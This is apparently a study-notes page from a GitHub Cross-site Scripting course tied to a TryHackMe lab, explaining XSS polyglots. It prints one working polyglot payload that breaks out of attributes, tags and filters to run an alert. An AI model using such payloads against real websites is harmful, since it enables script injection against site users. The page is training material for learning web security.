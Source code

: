 # Polyglots

- An XSS polyglot is a string of text which can escape attributes, tags and ***bypass filters all in one***. 

- You could have used the **[below polyglot](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/16%20-%20XSS%20Polyglots/ployglot.js)** on all **[6 Levels](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/11%20-%20Perfecting%20Your%20Payload)** you've completed, and it would have executed the code successfully.
<br> 

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
# Further Learnings

- For more detailed explanation of [XSS Polyglots](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot), go to [Further Learning](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/15%20-%20Further%20Learning)
